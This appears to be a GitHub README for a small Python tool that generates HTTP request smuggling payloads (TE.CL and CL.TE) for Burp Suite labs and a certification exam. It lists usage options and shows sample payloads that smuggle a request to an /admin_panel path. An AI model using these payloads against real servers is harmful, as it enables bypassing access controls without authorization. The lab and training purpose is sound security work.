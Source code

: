 ## Introduction
This tool is developed for burp suite practitioner certificate exam and HTTP Request Smuggling labs. The most important about this tool is <b>TE.CL</b> vulnerability exploitation and chunk size auto generator so you don't have to calculate the chunk size for the second(malicious request). <b>Τhis tool is simple but very useful</b>

The inspiration about this tool it was the [HTTP Requests Smuggler](https://github.com/PortSwigger/http-request-smuggler/) extension tool from burpsuite to use it you must have a valid burpsuite license.

For the valid chunk generator (TE.CL) i found the source code from [HTTP Requests Smuggler](https://github.com/PortSwigger/http-request-smuggler/) extension. You can find the source code below. <br>
> [TE-CL | PortSwigger HTTP Request Smuggler Resource](https://github.com/PortSwigger/http-request-smuggler/blob/master/resources/TE-CL.py) <br>
> [CL-TE | PortSwigger HTTP Request Smuggler Resource](https://github.com/PortSwigger/http-request-smuggler/blob/master/resources/CL-TE.py)

#### Attention this tool does not offer automated exploitation. You have to identify the injection point and exploit it manually!


## Installation
```
$ git clone https://github.com/dhmosfunk/simple-http-smuggler-generator.git
$ python3 tool.py --help
```

## Usage
Sometimes needs to use and append more HTTP Headers in the malicious request for different purposes E.g. bypass localhost restrictions. So you can add your own HTTP headers at `/lib/clte.py` or `/lib/tecl.py`.

```
$ python3 tool.py --help
usage: tool.py -v clte/tecl -host xxxxxxxxxx.net  -a admin_panel -m GET

options:
  -h, --help            show this help message and exit
  -v VULNERABILITY, --vulnerability VULNERABILITY
                        Possible values CLTE or TECL
  -host HOSTNAME, --hostname HOSTNAME
                        Target HOSTNAME
  -a ACTION, --action ACTION
                        ex. admin_panel
  -m METHOD, --method METHOD
                        Request Methods [GET, POST]
```

### Generating TE.CL Request
```
$ python3 tool.py -v tecl -host xxxx.net -a admin_panel -m get

---[TE.CL Payload Generated]---

Transfer-Encoding: chunked
Content-Length: 3

75
GET /admin_panel HTTP/1.1
Host: xxxx.net
Content-Type: application/x-www-form-urlencoded
Content-length: 15

x=1
0

---[TE.CL Payload Generated]---

[INFO]> Dont forget the \r\n after 0
Also disable the auto-update Content-Length from menu
```

### Send TE.CL Request
![image](https://user-images.githubusercontent.com/45040001/190521300-8a2cd4ec-3727-4c5c-a631-da0e86cb56f2.png)


### Generating CL.TE Request
```
$ python3 tool.py -v clte -host xxxx.net -a admin_panel -m get

---[CL.TE Payload Generated]---

Transfer-Encoding: chunked

0

GET /admin_panel HTTP/1.1
Host: xxxx.net
X-Ignore: X


---[CL.TE Payload Generated]---
```

### Send CL.TE Generated Request
![image](https://user-images.githubusercontent.com/45040001/190520684-1941ec58-15ef-4c92-96c1-4e4fc8181d8e.png)
